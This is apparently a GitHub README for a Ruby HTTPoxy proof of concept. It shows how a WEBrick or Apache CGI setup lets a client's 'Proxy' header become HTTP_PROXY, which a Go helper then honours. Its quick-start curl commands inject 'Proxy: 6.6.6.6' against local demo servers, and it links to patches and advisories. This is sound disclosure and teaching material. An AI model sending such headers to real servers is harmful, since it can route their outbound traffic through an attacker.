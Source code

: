 # Ruby HTTPoxy PoC

A somewhat contrived example of the [HTTPoxy](https://httpoxy.org/) vulnerability for a Ruby WEBrick server that is serving CGI scripts. Demonstrates:

* `WEBrick::HTTPRequest` prepends headers with "HTTP_" and `WEBrick::HTTPServlet::CGIHandler` lets the `HTTP_PROXY` header become an environment variable. Same deal with Apache server.
* Ruby `net/http` is not vulnerable as per [`URI::Generic#find_proxy`](http://ruby-doc.org/stdlib-2.3.1/libdoc/uri/rdoc/URI/Generic.html#method-i-find_proxy).
* *But* if the Ruby CGI script calls a system program that uses an affected HTTP client (e.g. Go `net/http`), the `HTTP_PROXY` environment variable will be respected and its value will be used for outbound HTTP requests. :(

## Quick Start:

```
$ ./server
$ curl -H "Proxy: 6.6.6.6" localhost:4000/ruby.cgi -v
```

With Docker:

```
$ docker run --rm -p 4000:4000 gordonchan/ruby-httpoxy
$ curl -H "Proxy: 6.6.6.6" $(docker-machine ip):4000/ruby.cgi -v
```

With Docker (Apache):

```
$ docker run --rm -p 80:80 gordonchan/ruby-apache-httpoxy
$ curl -H "Proxy: 6.6.6.6" $(docker-machine ip):80/ruby.cgi -v
```

### Observed Output

```
*   Trying ::1...
* Connected to localhost (::1) port 4000 (#0)
> GET /ruby.cgi HTTP/1.1
> Host: localhost:4000
> User-Agent: curl/7.43.0
> Accept: */*
> Proxy: 6.6.6.6
>
< HTTP/1.1 200 OK
< Content-Type: text/html
< Server: WEBrick/1.3.1 (Ruby/2.3.0/2015-12-25)
< Date: Tue, 02 Aug 2016 11:42:57 GMT
< Content-Length: 409
< Connection: Keep-Alive
<
HTTP_PROXY env:
ENV['HTTP_PROXY']  > 6.6.6.6

net/http proxy check:
NONE!

`./go-proxy-check` (system command):
In Go Land (using net/http)
Proxy: http://6.6.6.6
```

## Notes:
- [HTTPoxy.org](https://httpoxy.org/)
- [WEBrick::HTTPRequest](https://github.com/ruby/ruby/blob/978ee6d1ef62b36c143103f7a229bfb8bf0f99c6/lib/webrick/httprequest.rb#L402) setting metavariables as per defined in [RFC3875 section 4.1.18](https://tools.ietf.org/html/rfc3875#section-4.1.18)
- [Ruby WEBRick patch](https://github.com/ruby/ruby/commit/dafeebf12d4a930a99e5d3917ba070ebefefd23f)
- [Ruby Redmine Bug #12610](https://bugs.ruby-lang.org/issues/12610)
- [Go Lang `net/http` Patch](https://github.com/golang/go/issues/16405)
- [Red Hat advisory](https://access.redhat.com/security/vulnerabilities/httpoxy)
- [Nginx blog post](https://www.nginx.com/blog/mitigating-the-httpoxy-vulnerability-with-nginx/)
- [Notes from Phusion Passenger](https://blog.phusion.nl/2016/07/21/web-applications-on-phusion-passenger-are-not-vulnerable-to-httpoxy/)
- [Notes from Sophos](https://nakedsecurity.sophos.com/2016/07/19/httpoxy-the-disease-that-could-make-your-web-server-spring-a-leak/)

## License

ruby-httpoxy is Copyright (c) 2016 Gordon Chan and is released under the MIT License. It is free software, and may be redistributed under the terms specified in the LICENSE file.

[![Analytics](https://ga-beacon.appspot.com/UA-70790190-2/ruby-httpoxy/README.md?flat)](https://github.com/igrigorik/ga-beacon)
